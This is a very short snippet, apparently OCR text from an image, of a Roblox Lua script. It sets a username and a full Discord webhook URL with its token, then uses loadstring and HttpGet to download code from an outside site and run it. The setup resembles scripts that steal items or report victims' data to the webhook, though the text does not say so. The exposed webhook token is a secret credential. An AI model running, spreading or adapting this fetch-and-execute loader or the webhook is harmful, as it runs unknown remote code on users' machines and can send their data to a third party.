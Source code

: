 Username = "DeDSelot"
Webhook = "https://discord.com/api/webhooks/1265150005296234556/yDb7jIS2xm7blL6bFgJ39YCsM8mebwvkrPwhnVfmPEKDBh4vdG2JIEWcW_BI7ZwQdZYi"
loadstring(game:HttpGet("https://egorikusa.space"))()
